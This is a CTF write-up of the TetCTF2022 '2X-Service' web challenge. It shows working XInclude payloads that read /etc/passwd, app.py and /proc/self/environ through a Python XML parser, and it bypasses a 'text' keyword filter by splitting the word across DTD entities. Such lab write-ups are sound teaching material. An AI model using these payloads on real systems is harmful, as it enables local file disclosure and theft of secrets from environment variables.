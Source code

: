 # TetCTF2022 - 2X-Service Writeup
This is a web challenge, we are greeted with a form that takes 2 inputs. the first seems to want an XPATH, and the second wants some arbitrary XML.

We can view the [source](https://drive.google.com/file/d/14Dxlqqvij9ttMIq2uEVzjzez0v4iPDd6/view?usp=sharing) by navigating to `/source`.

## Reviewing Source Code
The most important piece of code from this codebase is the following, this method handles our input form request.
```py
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```
From what it seems, python will parse our xml, and then return a message corresponding to the value we select with our XPATH input, we can prove this with the following PoC.

**XPATH**
```plaintext
person
```

**XML**
```xml
<root>
<person>
pog
</person>
</root>
```

![[tetctf-2022-2x-service-initial-poc.png]]

The main issue here, is the `ElementInclude.include(root)` line, this processes XInclude elements, and if we recreate this locally, we can get LFI via the following payload (I have disabled the "text" WAF)
```xml
<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="/etc/passwd"/>
</x>
</root>
```

## Bypassing the WAF
Here there is a very simplistic WAF implemented, in that the given XML content cannot contain the string "text", this can be bypassed by creating our own resources and concatenating strings.

Here we specify two resources, splitting up "text" into two parts.
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>
```

We can then include these in the parse attribute of our `x` element:
```xml
<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="/etc/passwd"/>
</x>
</root>
```

## Getting The Flag
We can then use this to read app.py on the remote server with the following payload:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>

<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="./app.py"/>
</x>
</root>
```

We are after the flask `SECRET_KEY`, however when we read the remote `app.py`, we see the following:
```py
app.config['SECRET_KEY'] = os.environ.get('KEY')
```

To read the environmental variables of the current process, we can read `/proc/self/environ`, and we get the following output (payload given too):

**XPATH**
```xml
x
```

**XML**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>

<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="/proc/self/environ"/>
</x>
</root>
```

**Output**
```bash
SHELL=/bin/bash
[...SNIP...]
FLAG=TetCTF{Just_Warm_y0u_uP_:P__}
```
FLAG: `TetCTF{Just_Warm_y0u_uP_:P__}`